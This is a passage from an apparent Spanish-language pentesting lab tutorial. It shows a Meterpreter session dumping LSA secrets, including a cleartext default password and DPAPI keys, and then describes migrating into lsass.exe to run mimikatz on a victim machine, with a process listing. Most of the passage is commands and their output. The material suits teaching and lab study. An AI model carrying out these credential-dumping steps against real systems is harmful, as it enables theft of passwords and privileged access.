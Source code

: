 * **Dumpeando los LSA SECRETS**:

```bash
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : HARIS-PC
SysKey : a749692f1dc76b46d7141ef778aa6bef

Local name : haris-PC ( S-1-5-21-319597671-3711062392-2889596693 )
Domain name : WORKGROUP

Policy subsystem is : 1.11
LSA Key(s) : 1, default {060be82b-0750-887a-808d-0774087457db}
  [00] {060be82b-0750-887a-808d-0774087457db} d28ec83ef05184b93100beaa4d64a6a1a420b8a7a144c943fe57f60fbaa6425d

Secret  : DefaultPassword
old/text: kERjCoEmxdlSD

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 0a f3 a4 c2 1c ac 07 2f 83 07 61 b5 02 67 89 78 95 2d f3 0d 0f c8 4e 4e a5 c8 92 f6 74 a6 ea b6 fb 62 3e a7 93 cf cf 6f 
    full: 0af3a4c21cac072f830761b502678978952df30d0fc84e4ea5c892f674a6eab6fb623ea793cfcf6f
    m/u : 0af3a4c21cac072f830761b502678978952df30d / 0fc84e4ea5c892f674a6eab6fb623ea793cfcf6f
old/hex : 01 00 00 00 c9 22 d6 0b 83 9e dd 98 a7 ad 7a 5a c5 ff 4e bb 8a d2 6f 01 61 be bf d4 bc 70 54 70 fd df 46 12 a8 c5 e5 2d 98 6c 79 71 
    full: c922d60b839edd98a7ad7a5ac5ff4ebb8ad26f0161bebfd4bc705470fddf4612a8c5e52d986c7971
    m/u : c922d60b839edd98a7ad7a5ac5ff4ebb8ad26f01 / 61bebfd4bc705470fddf4612a8c5e52d986c7971
```

Con esto, terminamos de usar el **módulo Kiwi**, ahora podemos cargar el programa **mimikatz.exe** para poder obtener lo mismo que hizo **Kiwi**.

<h2 id="mimik2">Usando Mimikatz en Máquina Víctima</h2>

Para que el **mimikatz.exe** funcione debe ser ejecutado como un **administrador**, para identificarnos como **administrador** desde el **Metasploit Framework**, necesitamos migrar a un proceso que es ejecutado unicamente como **administrador**, el más común de estos procesos es el **lsass.exe**. Para migrar a este proceso, necesitamos su **PID** y que tengamos permisos suficientes para esta migración, hagamos esto por pasos:

* Viendo procesos:
```bash
meterpreter > ps
-
Process List
============
-
 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 236   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 268   428   spoolsv.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 320   312   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 328   428   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE
 364   312   wininit.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 392   372   csrss.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 428   364   services.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```